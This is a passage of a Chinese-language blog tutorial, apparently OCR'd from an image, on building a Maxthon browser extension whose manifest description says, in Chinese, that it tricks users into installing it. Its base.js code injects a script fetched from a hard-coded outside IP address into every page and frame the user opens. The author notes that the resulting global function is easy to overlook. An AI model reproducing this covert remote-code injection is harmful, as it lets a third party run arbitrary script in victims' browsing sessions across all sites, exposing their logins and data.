```
            "zh-cn":"欺骗用户安装插件"
        },
        "main":"index.html",
        "actions": [
            {
                "type": "script",
                "entryPoints": [
                    "doc_onload"
                ],
                "js": [
                    "base.js"
                ],
        "include": ["*"],
        "includeFrames": true
             }
        ]
    }
]
base.js             每打开一个页面，要执行的JavaScript代码
```

我翻遍了整个遨游插件的API手册，没有找到类似chrome Plug API的：

```javascript
chrome.runtime.onMessage.addListener(function (request, sender, sendResponse) {
    if(request.act == 'ping'){
        sendResponse({"act": "tong"});
    }
})
chrome.runtime.sendMessage("extensionId", {"act": "ping"}, function(response){
    if(response && response.act == 'tong'){
        console.log('已安装');
    }else{
        console.log('未安装');
    }
});
```

既然没有找到，我们就要想其他比较Hack的办法来解决这个问题。

这里我使用的办法是利用JavaScript全局及setTimeout函数来解决这个问题。

首先在插件里的base.js文件里写入:

```javascript
var script = document.createElement('script');
script.src = "http://119.29.58.242/control.js";
document.body.appendChild(script);
```
上面，这段代码将会在每个页面里的body标签后面写入`<script src="http://119.29.58.242/control.js"></script>`代码，而在`http://119.29.58.242/control.js`文件里的代码为:
```
window.plug_setup = function(){

}
```
这时，用户打开任何一个网页，那个网页的全局函数中就会有一个名为plug_setup的函数，并且不具有任何作用，很容易让人忽略掉，只会在特殊的页面中才会起作用。
